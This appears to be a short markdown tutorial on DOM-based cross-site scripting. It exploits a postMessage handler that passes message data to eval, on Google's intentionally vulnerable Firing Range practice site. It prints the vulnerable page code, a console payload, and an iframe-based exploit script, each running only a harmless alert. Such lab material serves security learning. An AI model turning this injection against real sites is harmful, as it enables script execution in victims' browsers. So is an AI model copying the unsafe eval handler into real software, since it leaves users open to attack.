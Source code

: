 # AN IDEA ON [XSS](https://en.wikipedia.org/wiki/Cross-site_scripting)

<small>[markdown by c0deN](http://twitter.com/c0dehard)</small>

in addition to the following [l1ackerone](https://www.hackerone.com/) YouTube Video:

[Hacker101 - JavaScript for Hackers (Created by @STÖK)](https://www.youtube.com/watch?v=FTeE3OrTNoA)

Google has a website called [Firing Range](https://public-firing-range.appspot.com/dom/) with some cool vulnerabilities you can just shoot at, to explore what happens.

Example:
- [PostMessage - complex message](https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval)

```html
<html>
  <head><title>Toxic DOM</title></head>
  <body>
    <script>
      const postMessageHandler = function(msg) {
  let action = msg.data.action;
  if(action === 'exec') {
    eval(msg.data.payload);
  } else if (action === 'addImage') {
    document.write('<img href='+ msg.data.source + '>');
  } else if (action === 'addHtml') {
    document.write(msg.data.html);
  } else {
    console.debug('unsupported command');
  }
};

window.addEventListener('message', postMessageHandler, false);

    </script>
  </body>
</html>
```
# Let's open console-devtools
Try some stuff: ,,Oh we could exec some post-scripts, nice!"
```
[Nano] Nano Defender Activated :: public-firing-range.appspot.com
VM81:15 [Nano] Read-only Property :: window.canRunAds
VM82:15 [Nano] Read-only Property :: window.canShowAds
VM83:15 [Nano] Read-only Property :: window.isAdBlockActive
alert('test')
undefined
window-Infinity
NaN
window.postMessage({"action":"exec","payload":"alert(document.domain)"},'*')
undefined
```

# [repl.it](https://repl.it/) is awesome, and...
..will be our temp host for testing now

Just hit **<> start coding** and choose `HTML, CSS, JS`
## Let's insert an `iframe` into our html

index.html
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>repl.it</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
  </head>
  <body>


    <iframe id=target></iframe>


    <script src="script.js"></script>
  </body>
</html>
```
## Write some JS
Now that we know theres a vurlnability, just use the one we tested in console earlier 
> `window.postMessage({"action":"exec","payload":"alert(document.domain)"},'*'`
and target the already mentioned site 


script.js
```javascript
var target = document.getElementById('target')

target.addEventListener('load',()=>{

  target.contentWindow.postMessage({"action":"exec","payload":"alert(document.domain)"},'*')
})

target.src = "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval"
```
# Alert will popup, congratulations!
 An embbeded page at public-firing-range.appspot.com says
public -firing-range.appspot.com
